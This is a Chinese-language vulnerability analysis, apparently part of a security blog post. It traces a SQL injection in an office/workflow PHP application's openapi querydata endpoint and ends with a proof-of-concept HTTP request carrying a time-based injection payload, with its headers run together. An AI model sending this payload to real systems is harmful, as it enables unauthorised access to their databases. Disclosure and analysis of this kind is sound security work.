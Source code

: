   
  
## 漏洞点二 （存在 ip限制）  
  
### 源码分析  
  
  
webmain/task/openapi/openbaseAction.php  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWX4v9F2NPPB61D4zzTw2KwGXXTPhYIsYSOVTgxyia9tcAl1r0wtQS8bjziapVk5Vw0kOcRtYsZdmFPA/640?wx_fmt=png&from=appmsg "")  
  
  
看getpostarr()方法可以分析出 传入的post值需要为json格式  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWX4v9F2NPPB61D4zzTw2KwGSm8HYNYbFOW2zZjs8oYI0Wibib2YzhoHKRK9SSlHmoFvTatrIfx9WlIg/640?wx_fmt=png&from=appmsg "")  
  
  
  
继续分析下面的代码传入的参数basemodenum 赋值给了 $modenum   baseoptid参数 赋值给了 $adminid  但是经过了过滤 无法传入单引号等内容  
  
  
在21行代码中调用getuserid方法对 $adminid 参数进行了查询  并且在22行代码可以得知 需要让21行的查询获得数据 不然会直接报错终止  
  
  
根据查看sql语句可以得知 查询的内容在admin表中  分析可知 最简单方法的就是传入一个1 即可  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWX4v9F2NPPB61D4zzTw2KwG9JXMjQqrOricVw7RImSfYhSdpjx5fC1VOrvJj8T5KtHBVUbrNiakkkrw/640?wx_fmt=png&from=appmsg "")  
  
  
继续分析代码 查看querydata方法获得了三个参数做了什么操作  看代码发现 在方法中将传入的 $modenum 也就是 $num 传入了initflow方法中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWX4v9F2NPPB61D4zzTw2KwGIWLaTUtEYF5NZ6iaHty5aaEMIxlObxOqTBNeKAQaicCRDGeeboAOhnNA/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWX4v9F2NPPB61D4zzTw2KwGKVOXeGcUrI85QYHpBN4tkQ3fSxs6G2DgRRAB0AYMuVIJDdiaVwtV6iag/640?wx_fmt=png&from=appmsg "")  
  
  
继续跟进initflow方法 发现又被传入了initdata 方法中   
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWX4v9F2NPPB61D4zzTw2KwGaSoLghEI4SibPycCIkYRDuxtDLnVTrE6zZ3VroHUvs1TRFACc36nnMw/640?wx_fmt=png&from=appmsg "")  
  
  
在这里 $num 的值被添加到了sql的一个条件语句中被执行 其中无任何限制 这样我们就可以开始构造poc 进行利用  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWX4v9F2NPPB61D4zzTw2KwG6mVOB3icLA3s44ltqWjHPvlficZ2MCfTqHPUOa0icEkEqSoib4I1y4R1Jw/640?wx_fmt=png&from=appmsg "")  
  
  
### 漏洞利用  
  
#### poc  
  
```
POST /index.php?m=openbase%7Copenapi&d=task&a=querydata HTTP/1.1Host: 127.0.0.1Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 58Cookie: {"baseoptid":"1","basemodenum":"a123456' OR SLEEP(0.01)#"}
```  
  
